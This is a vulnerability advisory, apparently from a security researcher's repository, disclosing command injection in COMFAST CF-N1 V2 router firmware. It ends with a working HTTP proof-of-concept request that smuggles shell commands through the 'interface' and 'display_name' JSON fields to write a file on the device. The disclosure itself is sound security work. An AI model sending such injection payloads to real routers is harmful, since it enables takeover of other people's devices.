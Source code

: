 # COMFAST CF-N1 V2 V2.6.0 Command Injection in \`update\_interface\_png\`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `update_interface_png`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `update_interface_png` API (`/usr/bin/webmgnt`, function `sub_41C000`). Attackers can inject arbitrary commands via the `interface` and `display_name` parameters, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Evidence](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=update_interface_png`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability resides in the `sub_41C000` function responsible for handling the `update_interface_png` configuration. Disassembly analysis reveals that user-controlled parameters (`interface` and `display_name`) are unsanitized and directly incorporated into a system command via `sprintf_0`, which is then executed using `system_0`.

Key code flow:



1.  User input is parsed via `blobmsg_parse_0`, extracting parameters including `interface` and `display_name`.

2.  These parameters are inserted into a command string using `sprintf_0` with the template `&aSSSSLdSSS` (likely a command for updating interface images, e.g., involving `ld` or file operations).

3.  The constructed command is executed via `system_0` without input validation, allowing attackers to inject arbitrary commands using delimiters like `;`, `&&`, or `#`.

This lack of sanitization enables attackers to break out of the intended command structure and execute malicious code.



![Vulnerable Code Snippet](./imgs/1.png)



![Command Injection Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Commands via `interface` and `display_name`



```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png  HTTP/1.1
Host: cflogin.cn
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"interface":"; echo update > /www-comfast/test.txt #","display_name":"&& echo 1"}
```



*   **Notes**: The `interface` parameter uses `;` to terminate the original command and inject `echo update`, while `display_name` uses `&&` to chain an additional `echo 1` command. The `#` comments out remaining syntax to avoid errors.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify execution of the injected command.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "update", confirming successful command injection.

![Command Injection](./imgs/3.png)

![PoC Execution Result](./imgs/3.png)

> （注：文档部分内容可能由 AI 生成）
